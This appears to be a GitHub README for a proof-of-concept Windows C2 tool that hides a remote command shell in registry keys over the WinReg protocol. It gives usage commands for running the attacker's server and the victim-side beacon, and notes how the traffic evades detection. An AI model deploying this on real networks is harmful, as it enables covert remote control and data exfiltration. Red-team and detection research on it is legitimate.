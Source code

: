 # Everything Can Be A Shell... An asynchronous shell at least...


### Disclaimer
The shells in this repository are all Proof-of-Concept and have only been tested in my own lab. Enjoy :)
*... Also, at this moment, the repository only contains a single shell based on Windows Registry keys. However, I do hope to add more in the future. *

### The Concept
This repository is made to explore untraditional ways of establishing command and control (C2) on Microsoft Windows systems and to keep the SOC on its toes. The shells in this repository are asynchronous just like Cobalt Strikes shells. The client (beacon) will check-in at a given interval (sleep-timer) for any new commands from the server (C2). If a command is found, the beacon will execute it and post the result back to the server. 

# Shell 1: C2 using Windows registry keys

## Brief description: 
This shell is based on Windows Registry keys. Yes, registry keys as in regedit.exe. The idea comes from the fact, that Windows allows for users (with the correct permissions) to read, write and/or delete registry keys and values on remote systems using the WinReg Protocol (MS-RRP). The "protocol" is built on top of the RPC protocol and is described by Microsoft: (https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/0fa3191d-bb79-490a-81bd-54c2601b7a78). Using custom code, it is possible to create a client-server-relationsship by having certain registry keys located on the server that the client can interact with.  

## Demonstration:
https://www.youtube.com/watch?v=jOPCbK-WF1M: The C2 server is running on the left while the beacon is on the right

## How it works:  
1. When the server starts, the Remote Registry Service is enabled and started. 
2. A registry key HKLM\Software\RegistryC2\\<user-defined> is created along with the following values: cmd, output & sleep. The user-defined registry key is specific to a single beacon and could be compared to setting up a listener.
3. Read/Write permissions are then set for the user "Everyone" on this newly created registry key.
4. Permissions are likewise set on the key: HKLM\SYSTEM\CurrentControlSet\Control\SecurePipeServers\winreg. This ensures that any client can authenticate to the server. (Note: On exiting/closing the server, these permissions are removed again.) 
5. When executing the beacon on the victim machine, it will connect to the C2 server using the WinReg protocol, and read the newly created registry key for the value of "sleep", to determine how often to check-in. 
6. When the timer is up, the client checks-in and executes the command found in the "cmd"-value. 
7. The result of the command is written as a string to the "output" value. 
8. While running, the server will look for new updates to the "output" value and prints it back to the attacker.
  
## Usage:
**Setup the server on the attackers machine (listener/C2):**
``` 
RegC2Server.exe <Registry key name to use with the client>
Example: RegC2Server.exe victim01
```
**Starting the client on the victim (beacon):**
```
RegC2Client.exe <host> <Registry key name used to start the server>
Example: RegC2Client.exe ws01 victim01
```

**Since this is a PoC, only the following commands have been implemented:**
```
>help
sleep <int>      Set the sleep time to the value of int
cmd <command>    cmd to execute
exit             Exit the application gracefully
```


## Screenshots:
**Starting the server:**  
Below, the server is started with the argument "victim01". The Remote Registry Service is attempted to be started, and the necessary permissions are put in place. The Registry key HKLM\Software\RegistryC2\victim01 is created with its necessary values: cmd, output & sleep.  
<img src="https://user-images.githubusercontent.com/35890107/186360543-a9bf7634-ea0d-4a0c-a9e5-4956701e0af3.png" width=60% height=60%>
&nbsp;  
&nbsp;  
**Permissions are set:**  
Special permissions are set for "Everone" on the Registry key "RegistryC2\victim01".  
<img src="https://user-images.githubusercontent.com/35890107/186360608-0ac3a430-912b-4a19-824d-3cfdedb5201b.png" width=60% height=60%>
&nbsp;  
&nbsp;  
**Beacon running on client:**  
The beacon is started on the victims machine. The beacon has updated its sleep-timer, found the command to execute and posted the result back to the C2-server.  
<img src="https://user-images.githubusercontent.com/35890107/186356461-715947b2-5926-40fe-9d9f-2264ebe20476.png" width=30% height=30%>
&nbsp;  
&nbsp;  
**Output is posted back to the server:**  
<img src="https://user-images.githubusercontent.com/35890107/186360638-91884a40-eaa8-4169-a148-95d14b26b894.png" width=60% height=60%>  
&nbsp;  
&nbsp;  
**Another command is executed:**  
<img src="https://user-images.githubusercontent.com/35890107/186360670-a328752d-8221-4811-8ae1-0453c211ff03.png" width=60% height=60%>  
&nbsp;  
&nbsp;  
**Exiting server:**  
The server is being closed and the Registry keys are no longer available.  
<img src="https://user-images.githubusercontent.com/35890107/186360706-dce99907-6027-4bad-abc4-ade26429fe41.png" width=60% height=60%>


## How does it look in Wireshark? 
Well, it's not pretty. First, protocols are being negotiated using SMB and a connection is made for IPC$ followed by a request for "winreg".    
<img src="https://user-images.githubusercontent.com/35890107/186396507-e940f94e-feea-4e72-b0b7-8041fe696377.png" width=80% height=80%>
&nbsp;  
&nbsp;  
  
Scrolling down, the protocols are switched to DCERPC and WINREG. We also see a "QueryValue" request and response.  
<img src="https://user-images.githubusercontent.com/35890107/186397638-300e0e07-c927-4a96-833f-bcb7499cc8aa.png" width=80% height=80%>
&nbsp;  
&nbsp;  
  
Interestingly, on examining the Winreg protocols QueryValue, we see that all the data is placed in an "Encrypted stub data" meaning that commands between the C2 and the beacon are encrypted by default, which is quite nice.  
<img src="https://user-images.githubusercontent.com/35890107/186397649-2033e1ca-a853-4ab0-a2b2-ef1c55e8c711.png" width=80% height=80%>

## Conclusion
Using the WinReg protocol for command and control purposes will undoubtly look unfamiliar to a blue team. On a network where Remote Registry is not used at all, this will definitly stand out; however it might also go completely undetected due to a lag of alerts on this particular protocol. Lastly, it's pretty convenient that the data is encrypted by default making it even more difficult for a blue-team to figure out what has been exfiltrated. Now, such logs could ofc. be found elsewhere. 

**Requirements:** 
The Remote Registry Service needs to be enabled on the server, and the client needs to be permitted to make changes to a user-defined registry key.

**Limitations:** 
Since the traffic is based on RPC and SMB, it should only really be suitable for lateral movement on local networks. 

**Security considerations:**
The permissions allows for anyone to connect to the servers registry database. Each registry key is protected by its own SACL, and so the server is only as insecure as the applied permissions on other keys. Consequences could potentially be dire :D
